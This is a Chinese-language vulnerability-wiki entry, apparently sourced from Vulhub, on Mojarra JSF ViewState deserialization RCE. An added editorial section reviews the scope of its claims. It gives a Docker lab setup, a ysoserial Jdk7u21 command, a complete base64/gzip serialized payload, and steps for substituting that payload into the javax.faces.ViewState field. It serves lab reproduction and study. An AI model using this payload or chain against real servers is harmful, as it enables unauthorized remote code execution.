



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列出2.1.29-08和2.0.11-04以前分支；实验2.1.28、JDK7u21，需保留分支与运行时限制

代码与实验材料：完整gzip/base64 ViewState载荷与替换流程，结果依赖截图；需明确客户端状态保存及完整性配置

来源证据范围：Vulhub、Alphabot原研究、Synacktiv材料及ExploitDB，相关性较强未外查

- **适用与权限边界（1）**：未加密与可反序列化攻击被混同；依据：缺少加密本身不等于能伪造受完整性保护的状态，需写明状态保存模式及认证/密钥配置。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **来源与引用处置（2）**：JDK gadget适用性容易被忽略；依据：实际使用Jdk7u21链，不能推广到任意JSF和JDK版本。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Mojarra JSF ViewState 反序列化漏洞

## 漏洞描述

JavaServer Faces (JSF) 是一种用于构建 Web 应用程序的标准，Mojarra是一个实现了JSF的框架。在其2.1.29-08、2.0.11-04版本之前，没有对JSF中的ViewState进行加密，进而导致攻击者可以构造恶意的序列化ViewState对象对服务器进行攻击。

参考链接：

- https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html
- https://www.exploit-db.com/docs/48126
- https://www.synacktiv.com/ressources/JSF_ViewState_InYourFace.pdf

## 环境搭建

Vulhub执行如下命令启动一个使用了JDK7u21和mojarra 2.1.28的JSF应用：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到demo页面。

## 漏洞复现

JSF的ViewState结构如下：




根据这个结构，我们使用ysoserial的Jdk7u21利用链来生成一段合法的Payload：

```
$ java -jar ysoserial-master-SNAPSHOT.jar Jdk7u21 "touch /tmp/success" | gzip | base64 -w 0
H4sIAAVGF18AA61WzW8bRRR/Yye2Y9zmo/lsaZvQlnxAd/PlJsURbT5Ia3BIhNNUwocwXk/sbde7293ZZINEb/wBCJX/AJBoOPRCqx6QKm4tFyQkUFEluHADDhUSFz7e7G5iKwnYLV1pd2bf17z35jdv3tYv0Ghb0HWFrlPJ4aomZVT9KitcpHYpy/j32ndv33g0dCwE4FrQWpEK+Hfn3r/x0Z3b42HkmxsJAGg5dx7EE0KrryhGWbIdXTKsokRNqpSY5FKN6pKqc2bpVJNcW+OKxC3qSsusbGqUMzuNY9PlxXv61s2xMETScGBV1QtM52865Tyz0nBwFRV0W2M8jXQ3B/HV/CZnilFgNodwLjeTg8iqolEbf9tyGeG2jMsW5VlBS2WgcVWnZYbMKl6WW6peRGbrquFw0+FLlmEyi6vCaKcvKGKXK/SUa4pY/8bHsbyF3/izp6NY/GFCJEzwQkgP5Wa2Hnf9EYkt/xiQI5/d/+vul8gehbNxCMMLUZiIwqkovEigxWaWSrUVZtmqoV9KzxEgrxM4MGvoNqc6X6Gawxo/7/3w8QePfnuVQGRK1VWOk/DA4AqBhlnMAoFm3Ebm52uZ5jWktGUMBc1SNI7/AbGBl1SbwKEsd/LLQU6X6KZm0AKBRFrXmeWljKFQMrNpG75zsunL2H5CLtBCkXH75D5WUgSavM1aM6wyAWsgg5iQERMyYkL2MSF7mJC3MSF7mJDnFhdSuX2ly1pF1vdHfZdZcjaYUo55u0j1gsaslEhJrGAoThnxQ+D0Ey2PqiXfDoY/8/+dIRB/zVWYKWh2FPoJfPJk+ajpQYGX5bnlhWlXtdNIotywaivVlUM1MCdw8DReEIgGuSQw/SwymTUcS2HzqoBxIkCgJA5pAuLwXBQGCIw9BWAJnK93RyxH52qZydN5GyGu8G1LBNq9YqEaFee903a2XsvblnbQQuB4jVhwi6YULSgFrZWq9pbvZBSGMGcoGPwT6BgYzOwRSyXgZTgdh5dAworBDUcp9cq8bKLXisJsOwbDWDSYyxQC/QN7i2e1SSyTQgVNjsKYMDmOVSzLqXJ1gZpB/amKamkDi83oxPBIMpmcnBgZGR8Zm0CNvkwNkRT0QQhrKPqF72FohAiOUVF7IebREA74FZeTjCPBsXHoNpBbnsgB/EY8ogwH8ZvwBaAZJnHE0gjtKCWUz+EbFrTdiuOeYq/PDBTFrAM6PT6BLuhGjR6c+z4Ks0cCs2mPuo/ZSc/skM/c1+zzcBQ1xOwYHMflKwvEYHAn6JPIEVLNn0KYZO6A3DbyBSQv3/IUz3hBESHR663fB604xpEVghPQAk3ONbiOtoB8u3NnHRF3VkcUuqLQHYWeeu+saz+rv06VL3Q/mzsrPG8Ye+6oUzXvKNSqp3ocJnCiDlMYegXwi/krTPn301/rBP8njkn9OJ7aheM2j3/I+7ZX7W6n2F2TQwMeK8vcIODa73mYOCr8dyUsyNLO1V3pztztblHELFlsTcOgJTzs7uZP/Q97v26ZfRACkgFS4rgdlewEknJaX8dNrS7mrom94qjoE7etUV03uCcjTe9M9yheuv97c8eD6x+HIJSBRJkJ4HhIw36tuapfw3KDXV0D3zSx42vd0w16y+9qbVGlMfrw3led73yDR2Me4mK75rHGG9h+NvGSxeySoRVcM+h2Exsx0fuK9HGIrSVpkp4ZnhQnJ+auWzUyCpXHNd1/AEKwhdeSCwAA
```

然后，我们提交表单并抓包，修改其中`javax.faces.ViewState`字段的值为上述Payload（需要URL编码）：




`touch /tmp/success`已成功执行：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
